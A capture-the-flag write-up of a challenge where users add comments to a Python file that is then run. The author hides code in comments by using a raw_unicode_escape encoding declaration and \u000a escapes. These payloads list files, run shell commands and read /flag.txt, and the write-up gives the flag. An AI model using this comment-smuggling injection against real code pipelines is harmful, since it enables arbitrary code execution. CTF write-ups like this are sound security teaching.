



## My Awesome Python Homework Assignment

### Author: caandt

I just finished my programming assignment but I forgot to add comments! Can you add some comments to my homework so I don't lose points?

```bash
nc smtg.smtg.smtg.smtg smtg
```

there's a [main.py](main.py) file:

`main.py`
```python
#!/usr/local/bin/python
import subprocess

code = """
def isPalindrome(s):
    result = True
    for i in range(len(s) // 2):
        characterOne = s[i]
        characterTwo = s[len(s) - 1 - i]
        if characterOne != characterTwo:
            result = False
    return result
wordToCheck = input("Enter a word to check if it's a palindrome: ")
if isPalindrome(wordToCheck):
    print("Yes, it's a palindrome!")
else:
    print("No, it's not a palindrome.")
""".strip().split('\n')

print('-' * 10)
print('\n'.join(code))
print('-' * 10)
while True:
    lno = int(input('line number: '))
    comment = input('comment: ')
    code.insert(lno, f'# {comment}')
    print('-' * 10)
    print('\n'.join(code))
    print('-' * 10)
    if input('add more? [y/N]: ') not in ['y', 'Y']:
        break

name = '/tmp/my_awesome_assignment1.py'
with open(name, 'w') as f:
    f.write('\n'.join(code))
subprocess.run(['python', name])

```

After some experimentation, this was a classic case of "comments aren't always just comments."

I used Python's encoding trick. First, I added this line:

```python
# coding: raw_unicode_escape
```

Then I put this special comment:

```python
# \u000aimport os\u000aprint(os.listdir("."))\u000a
```

The `\u000a` is a hidden newline character.

then i ran this:
```python
# \u000aimport os\u000aprint("Is directory:", os.path.isdir("run"))\u000aif os.path.isdir("run"):\u000a  print("Contents of run:", os.listdir("run"))\u000aelse:\u000a  print("Contents of run:", open("run", "r").read())\u000a
```



It worked. I saw a file called "run" but no flag.
turns out the run file is the file it's running itself. lmao.

But, since i can execute comments inside of python, that means i can also do anything i want.

now, i ran this:
```python
# \u000aimport os, glob\u000aprint("Current dir:", os.getcwd())\u000aprint("All files (detailed):", os.popen("ls -la").read())\u000aprint("Parent dir contents:", os.listdir(".."))\u000aprint("Flag files:", glob.glob("**/*flag*", recursive=True))\u000a
```

there's a file named `flag.txt` in the parent directory, exactly what we're looking for!

i did 
```python
# \u000aimport os\u000aprint("Flag content:", open("/flag.txt").read())\u000a
```


and it worked

the flag is `texsaw{i_got_100%,thanks!!1!}`